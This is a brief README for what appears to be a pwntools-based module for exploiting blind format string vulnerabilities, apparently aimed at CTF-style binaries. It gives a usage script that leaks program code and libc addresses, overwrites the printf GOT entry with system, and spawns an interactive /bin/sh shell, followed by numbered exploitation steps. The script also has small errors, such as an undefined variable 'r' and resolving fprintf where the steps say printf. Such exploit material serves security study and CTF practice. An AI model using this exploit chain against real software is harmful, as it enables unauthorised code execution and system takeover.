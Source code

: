 ## Blind Format String Exploitation 
This is a module to exploit blind format string vulnerability  

### How to use it ?
```python
from pwn import *
from frmstr import *

p = process('blind')
saveSocket = p

base_addr = 0x08048000

data = leak_code(r,263,2,0x0804852b,10) # leak_code(r,offset,pad,start_addr,size)
print disasm(data,arch='i386')
d, dynamic_ptr = leak_libc_ptr(p,base_addr)
system_libc  = leak_libc(d,'system')
fprintf_libc = leak_libc(d,'fprintf')

got_addr = find_got(p,dynamic_ptr)
printf_got = resolve_got(got_addr, fprintf_libc)

send_payload(p,printf_got, system_libc,6)
p.sendline('/bin/sh\x00')
p.interactive()
p.close()

```

#### Steps For Exploitation
1) leak the code

2) leak Libc usinf pwntools Dynelf module

3) leak .dynamic ptr and then GOT table addr 

4) leak printf_got

5) Overwrite printf_got with system addr </p>

6) send /bin/sh 
